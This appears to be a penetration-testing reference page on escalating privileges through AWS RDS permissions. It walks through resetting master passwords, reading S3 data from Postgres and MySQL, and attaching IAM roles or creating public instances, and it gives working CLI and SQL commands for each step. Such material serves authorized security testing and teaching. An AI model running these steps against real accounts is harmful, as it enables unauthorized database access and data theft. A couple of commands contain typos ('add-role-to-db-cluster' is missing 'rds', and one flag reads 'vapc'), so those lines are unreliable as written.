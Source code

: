 # AWS - RDS Privesc

## RDS - Relational Database Service

For more information about RDS check:

[[../aws-services/aws-relational-database-rds-enum.md]]

### `rds:ModifyDBInstance`

With that permission an attacker can **modify the password of the master user**, and the login inside the database:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

> [!WARNING]
> You will need to be able to **contact to the database** (they are usually only accessible from inside networks).

**Potential Impact:** Find sensitive info inside the databases.

### rds-db:connect

According to the [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) a user with this permission could connect to the DB instance.

### Abuse RDS Role IAM permissions

#### Postgresql (Aurora)

> [!TIP]
> If running **`SELECT datname FROM pg_database;`** you find a database called **`rdsadmin`** you know you are inside an **AWS postgresql database**.

First you can check if this database has been used to access any other AWS service. You could check this looking at the installed extensions:

```sql
SELECT * FROM pg_extension;
```

If you find something like **`aws_s3`** you can assume this database has **some kind of access over S3** (there are other extensions such as **`aws_ml`** and **`aws_lambda`**).

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can see there if the **cluster has any IAM Role attached** in the field **`AssociatedRoles`**. If any, you can assume that the database was **prepared to access other AWS services**. Based on the **name of the role** (or if you can get the **permissions** of the role) you could **guess** what extra access the database has.

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
   'test1234567890678', // Name of the bucket
   'data.csv',          // Name of the file
   'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

If you had **raw AWS credentials** you could also use them to access S3 data with:

```sql
SELECT aws_s3.table_import_from_s3(
   't', '', '(format csv)',
   :'s3_uri',
   aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

> [!NOTE]
> Postgresql **doesn't need to change any parameter group variable** to be able to access S3.

#### Mysql (Aurora)

> [!TIP]
> Inside a mysql, if you run the query **`SELECT User, Host FROM mysql.user;`** and there is a user called **`rdsadmin`**, you can assume you are inside an **AWS RDS mysql db**.

Inside the mysql run **`show variables;`** and if the variables such as **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, have values, you can assume the database is prepared to access S3 data.

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can check if the cluster has any **associated role**, which usually means access to AWS services).

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBCluster` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.\
Note that some DBs require additional configs such as Mysql, which needs to specify the role ARN in the aprameter groups also.

### `rds:CreateDBInstance`

Just with this permission an attacker could create a **new instance inside a cluster** that already exists and has an **IAM role** attached. He won't be able to change the master user password, but he might be able to expose the new database instance to the internet:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
    --db-instance-identifier mydbinstance2 \
    --db-instance-class db.t3.medium \
    --engine aurora-postgresql \
    --db-cluster-identifier database-1 \
    --db-security-groups "string" \
    --publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

An attacker with the permissions `rds:CreateDBInstance` and `iam:PassRole` can **create a new RDS instance with a specified role attached**. The attacker can then potentially **access sensitive data** or modify the data within the instance.

> [!WARNING]
> Some requirements of the role/instance-profile to attach (from [**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - The profile must exist in your account.
> - The profile must have an IAM role that Amazon EC2 has permissions to assume.
> - The instance profile name and the associated IAM role name must start with the prefix `AWSRDSCustom` .

```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBInstance` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

> [!WARNING]
> The DB instance must be outside of a cluster for this

```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

